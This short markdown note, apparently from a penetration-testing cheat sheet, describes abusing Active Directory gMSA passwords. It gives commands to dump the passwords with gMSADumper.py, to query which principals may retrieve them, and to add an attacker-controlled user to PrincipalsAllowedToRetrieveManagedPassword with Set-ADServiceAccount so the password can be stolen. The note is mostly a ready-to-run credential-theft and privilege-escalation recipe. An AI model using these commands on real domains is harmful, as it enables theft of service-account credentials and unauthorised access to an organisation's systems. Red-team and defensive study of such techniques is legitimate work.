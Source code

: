 # gMSA Passwords:

Find users controled by gMSA Passwords (externaly from your machine), it also check users who can revel the passwords.
`gMSADumper.py -u <user you control> -p <password> -d <domain>`

If you have access to a internal powershell session (evil-winrm, for example) you can also check this information for a particular user:
`Get-ADServiceAccount -Identity <user controlled by gMSA Passwords> -Properties PrincipalsAllowedToRetrieveManagedPassword`

In case you have access, and permisions inside powershell session you can include yourself into the list of users who can revel the passwords:
`Set-ADServiceAccount -Identity <user controlled by gMSA Passwords> -PrincipalsAllowedToRetrieveManagedPassword <user you control>`

Then try to retrive passwords again with gMSADumper.py.

